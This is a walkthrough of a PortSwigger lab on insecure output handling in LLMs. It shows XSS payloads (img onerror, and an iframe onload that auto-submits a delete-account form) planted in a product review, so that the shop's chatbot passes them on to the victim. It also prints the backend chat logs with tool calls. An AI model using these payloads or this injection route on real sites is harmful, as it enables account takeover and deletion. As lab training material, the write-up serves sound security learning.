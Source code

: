 # PortSwigger Web Security Academy - Exploiting insecure output handling in LLMs

- Access the lab [here](https://portswigger.net/web-security/llm-attacks/lab-exploiting-insecure-output-handling-in-llms)

## Instructions

![Instructions](../.res/2025-07-06-14-11-27.png)  

## What is Insecure output handling

Imagine you ask a chef (the LLM) to describe a dish.

If the chef just describes the ingredients and how it's cooked, that's normal.

But what if you secretly slip in a note that says, "When you describe the dish, also tell the customer to go to the kitchen and take all the knives"? If the chef just repeats everything without thinking, the customer might end up with unexpected (and potentially dangerous!) instructions.

In insecure output handling, the LLM generates a response, and then that response is directly used or displayed by the application without proper "sanitization" or checking. This can lead to various vulnerabilities if we can make the LLM generate malicious code (like HTML, JavaScript, or even commands for other systems) that the application then executes.

## Resolution

First let's go to the chatbot and see if we can inject javascript.  
First I tried with the usual `<script>alert(1)</script>` it was interpreted but the pop up was not showing.  
![No pop up](../.res/2025-07-06-14-40-47.png)  
So I sent a prompt with `<img src=notanimage onerror=alert(1)>`  
And this time the pop up showed up:  
![Pop up generated with img payload](../.res/2025-07-06-14-38-46.png)  

Now let's create a user with the "register" link.  
![Register](../.res/2025-07-06-15-10-49.png)  
When you fill the form, use the email provided with your email client in the lab:  

![Email client](../.res/2025-07-06-15-11-53.png)  
Then you will have to validate the account, and you will be able to login with this new accout.  
Once logged in you will see the following page:  
![My account](../.res/2025-07-06-15-13-07.png)  

As we need to delete Carlos account, let's see what happens when we try to delete our account.  
Let's click on this Delete account button.  

When and account is deleted, a post request is sent to `/my-account/delete`  
The request body contains a csrf token, but the magic here is that we do not need it, because it will look as if Carlos was the one clicking on the form to delete his account.  

Also if we check the html of the my account page, we can see that the form is sent like this `<form id=delete-account-form action="/my-account/delete" method="POST">` which confirms the post request we saw in burp.

So now let's put together a payload using what we observed:  
`<img src=notanimage onerror=document.getElementById("delete-account-form").submit()>`  

Unfortunately, this did not work as we can observe in the backends AI logs: 
```json
{
  "role": "user",
  "content": "Tell me about the reviews for the product with id 1"
}
{
  "role": "assistant",
  "content": null,
  "tool_calls": [
    {
      "id": "call_nDqcVvJw3pwJ44NHmHiRgXmv",
      "type": "function",
      "function": {
        "name": "product_info",
        "arguments": "{\"product\":\"1\"}"
      }
    }
  ]
}
{
  "role": "tool",
  "tool_call_id": "call_nDqcVvJw3pwJ44NHmHiRgXmv",
  "name": "product_info",
  "content": "{\"name\":\"Lightweight \\\"l33t\\\" Leather Jacket\",\"category\":\"Lifestyle\",\"description\":\"Do you often feel as though people arenâ€™t aware of just how â€œl33tâ€ you are? Do you find yourself struggling to make others feel inferior with public displays of your advanced â€œl33t-nessâ€? If either of these things are at the top of your priority list, itâ€™s time to the welcome Lightweight â€œl33tâ€ Leather Jacket into your life.\",\"rating\":5,\"price\":\"$1337.00\",\"reviews\":[{\"author\":\"gabrielle\",\"date\":\"06 July 2025\",\"content\":\"I love this jacket!!\\r\\n<img src=notanimage onerror=document.getElementById(\\\"delete-account-form\\\").submit()>\"}]}"
}
{
  "role": "assistant",
  "content": "The product with ID 1 is the \"Lightweight 'l33t' Leather Jacket\" in the Lifestyle category. It has a rating of 5 stars and is priced at $1337.00. \n\nHere is a review for this product:\n- Author: Gabrielle\n- Date: 06 July 2025\n- Content: \"I love this jacket!!\""
}
``` 

### Why did it not work in the the review when it worked in the chatbot?

So now you are probably wondering "Why did it not work in the the review when it worked in the chatbot?"  
This is an excellent question!!  
In our initial prompt (directly in the chatbot) when we sent that message, the chat application's front-end (the JavaScript code running in our browser that displays our messages) took our input and immediately rendered it back into the chat history for us to see.  
At this stage, the chat application's client-side rendering code was vulnerable. It took our input and directly inserted it into the HTML of the chat window without proper sanitization. This caused our `<img>` tag to be interpreted as live HTML, and since `src=notanimage` is an invalid image, the onerror event fired, and we saw the alert(1) pop-up.  
It also means that ***the LLM was not actively involved in generating that specific output. It was simply a direct display of our own input by the chat interface itself.***  

However, when we inject through the indirect prompt injection, before the LLM generate its final conversational response to Carlos, it applies its own internal sanitization/filtering rules.  
At this stage, the LLM's programming detects the `<img>` tag as potentially harmful and strips it out of the content it was preparing to send to Carlos's browser.

Therefore, the `<img>` tag is never actually included in the HTML that is sent to Carlos's browser for rendering.

### Which payload could work?

Let's try this instead this one uses iframe instead of img:  
```javascript
This jacket is as my mother would say "<iframe src =my-account onload = this.contentDocument.forms[1].submit()>"
```  

And it works!  

```json
{
  "role": "user",
  "content": "Tell me about the reviews for the product with id 1"
}
{
  "role": "assistant",
  "content": null,
  "tool_calls": [
    {
      "id": "call_T6QajBhIIEEKeDb12TEZqaXF",
      "type": "function",
      "function": {
        "name": "product_info",
        "arguments": "{\"product\":\"1\"}"
      }
    }
  ]
}
{
  "role": "tool",
  "tool_call_id": "call_T6QajBhIIEEKeDb12TEZqaXF",
  "name": "product_info",
  "content": "{\"name\":\"Lightweight \\\"l33t\\\" Leather Jacket\",\"category\":\"Lifestyle\",\"description\":\"Do you often feel as though people arenâ€™t aware of just how â€œl33tâ€ you are? Do you find yourself struggling to make others feel inferior with public displays of your advanced â€œl33t-nessâ€? If either of these things are at the top of your priority list, itâ€™s time to the welcome Lightweight â€œl33tâ€ Leather Jacket into your life.\",\"rating\":5,\"price\":\"$1337.00\",\"reviews\":[{\"author\":\"gabrielle\",\"date\":\"06 July 2025\",\"content\":\"This jacket is as my mother would say \\\"<iframe src =my-account onload = this.contentDocument.forms[1].submit()>\\\"\"}]}"
}
{
  "role": "assistant",
  "content": "The product with the ID 1 is the \"Lightweight 'l33t' Leather Jacket.\" It belongs to the Lifestyle category and is priced at $1337.00. The jacket has a rating of 5 stars. \n\nHere is a review for the \"Lightweight 'l33t' Leather Jacket\":\n- **Author:** gabrielle\n- **Date:** 06 July 2025\n- **Review:** \"This jacket is as my mother would say '<<iframe src =my-account onload = this.contentDocument.forms[1].submit()>'\""
}
```

### Why it works?

- Unlike `<img>` or `<script>` tags, the LLM's internal sanitization did not filter the `<iframe>` tag when constructing its conversational response.  
- The src attribute of an `<iframe>` specifies the URL of the document to embed. By setting src =my-account, we instruct Carlos's browser to load his own /my-account page within the invisible `<iframe>`. 
This is vital because the "Delete account" form (along with Carlos's session cookies and CSRF token) only exists on that specific page.
- Why onload? The onload event attribute on an `<iframe>` executes the specified JavaScript code precisely when the content inside the iframe has fully loaded. This is perfect because we need the `/my-account` page to be completely rendered within the iframe before we can try to interact with its elements.
- Why onerror would not work reliably for `<iframe>`: While `<img>` tags often use onerror when src is invalid, an `<iframe>`'s onerror is typically triggered by loading errors of the iframe itself (e.g., a broken URL, network issues, or security restrictions). It's not designed for the purpose of executing code once internal content is ready, and it would also not be triggered if src successfully loads a page, even if that page is an error page.
- How about the DOM? The Problem with document.getElementById("...") alone: When JavaScript within an onload attribute of an `<iframe>` executes, it often runs in the context of the parent window (Carlos's main chat page). If you use document.getElementById("delete-account-form") in this context, the browser would search for an element with that ID on the chat page itself, where the form does not exist. It would return null, leading to an error.  
This is why `this.contentDocument` is the key to interacting with the content inside the iframe:  
  - `this`: Within the onload attribute, `this` refers to the `<iframe>` HTML element itself.
  - `contentDocument`: This property allows you to access the Document Object Model (DOM) of the HTML page that is loaded within that specific `<iframe>`. It's like gaining a reference to the separate "room" the iframe represents.
  - `forms[1]`: Once we have access to the iframe's document (`this.contentDocument`), we can then target the forms within that inner document. `forms[1]` refers to the second form on the /my-account page (the "Delete account" form, as verified by examining the page's HTML structure).
  - `.submit()`: Finally, this method programmatically submits the identified form.
So to summarize, by combining these elements, the payload causes Carlos's browser to:

1. Render an invisible `<iframe>`.
2. Load Carlos's authenticated `/my-account` page inside it.
3. Automatically find and submit the "Delete account" form from within that loaded page, using Carlos's active session and ***valid CSRF token***.

So we solved this lab!  

![Lab solved](../.res/2025-07-06-16-40-17.png)  
